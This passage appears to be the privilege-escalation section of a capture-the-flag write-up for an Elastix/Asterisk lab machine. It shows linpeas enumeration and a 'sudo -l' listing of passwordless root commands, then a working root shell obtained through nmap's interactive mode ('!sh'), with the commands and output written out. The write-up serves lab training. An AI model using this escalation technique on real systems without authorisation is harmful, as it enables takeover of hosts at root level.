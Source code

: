 ## Privilege Escalation

### Sudo and Suid

Back to shell at `LFI and Postfix smtpd`, I enumed server with [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```
bash-3.2$ sudo -l
<snip>

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

[GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo)

```
bash-3.2$ sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```